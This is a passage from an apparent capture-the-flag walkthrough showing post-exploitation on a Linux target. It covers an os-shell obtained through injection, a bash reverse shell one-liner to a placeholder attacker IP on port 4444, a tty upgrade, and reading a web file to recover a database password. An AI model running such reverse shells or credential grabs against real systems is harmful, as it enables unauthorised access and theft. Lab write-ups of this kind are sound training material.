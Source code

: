 ``` shell
  
  \[15:32:34\] \[INFO\] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
  
  **os-shell> **
  -----------------------------------------------------------------------------------------------------------------------
```
![](media/image86.png){width="5.759027777777778in"
height="1.4895833333333333in"}

### &#9676; Privilege Escalation
======================

This can be used to execute a bash reverse shell.
``` shell
  --------------------------------------------------------------------
  **bash -c 'bash -i >& /dev/tcp/<your\_ip>/4444 0>&1'**
  --------------------------------------------------------------------
```
![](media/image87.png){width="5.7659722222222225in" height="1.9375in"}

Let's upgrade to a tty shell and continue enumeration.
``` shell
  -----------------------------------------
  **SHELL=/bin/bash script -q /dev/null**
  -----------------------------------------
```
Let’s have a look to the source code of dashboard.php in /var/www/html.

The code reveals the postgres password to be: **P@s5w0rd!**

![](media/image88.png){width="5.7659722222222225in" height="0.375in"}

